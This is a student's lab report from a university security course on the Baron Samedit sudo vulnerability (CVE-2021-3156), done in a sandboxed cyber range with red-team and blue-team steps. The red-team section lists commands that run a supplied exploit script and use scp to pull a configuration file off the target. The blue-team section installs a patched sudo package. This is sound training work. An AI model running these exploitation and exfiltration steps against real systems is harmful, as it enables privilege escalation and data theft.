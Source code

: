 # Challenge Report: Baron Samedit CVE-2021-3156  
**Course:** CORe 463/563  
**Student:** Ian Sweet  
**Email:** iansweet315@u.boisestate.edu  

---

## Challenge Overview

This challenge, delivered through the CISA Threat Sandbox, centers on Baron Samedit (CVE-2021-3156), a known privilege escalation vulnerability. It involves both red team and blue team components:

- **Red Team**: Exploiting the CVE to exfiltrate a target configuration file.
- **Blue Team**: Patching the system to secure it against the vulnerability.

All scripts and update packages were provided in the XP CyberRange environment.

---

## Network Configuration

- **Security-Desk**: `172.16.200.12`
- **Red Target System**: `172.16.100.90`
- **Blue Target System**: `172.16.100.100`

---

## Red Team Procedure

1. SSH into Red Target.
2. Verify vulnerable sudo version (`1.8.27`).
3. Locate and transfer `exploit_nss.py` using `scp`.
4. Execute the exploit on Red Target via `python3`.
5. Access and copy `/opt/config.json` to home directory.
6. Exfiltrate file using `scp` to Security-Desk.

**Key Commands:**
```bash
scp ~/Desktop/Resources/exploit_nss.py playerone@172.16.100.90:/home/playerone/
python3 exploit_nss.py
scp playerone@172.16.100.90:/home/playerone/config.json ~/Desktop/Exfiltration-Artifacts/
```

---

## Blue Team Procedure

1. SSH into Blue Target.
2. Confirm vulnerable sudo version (`1.8.27`).
3. Transfer patch `.deb` package from Security-Desk.
4. Install patch using `dpkg`.
5. Confirm updated version is `1.8.31`.

**Key Commands:**
```bash
scp ~/Desktop/Resources/sudo_1.8.31-1ubuntu1.5_amd64.deb playerone@172.16.100.100:/home/playerone/
sudo dpkg -i sudo_1.8.31-1ubuntu1.5_amd64.deb
sudo --version
```

---

## Tools and Resources Used

- CVE research
- Secure Copy Protocol (`scp`)
- `dpkg`, `ssh`, `chown`, `cp`, `sudo`
- YouTube: Linux command refreshers

---

## Outcome

Both red team (exfiltration) and blue team (patch verification) objectives were successfully completed. The exercise emphasized the significance of patch management and hands-on vulnerability exploitation techniques.
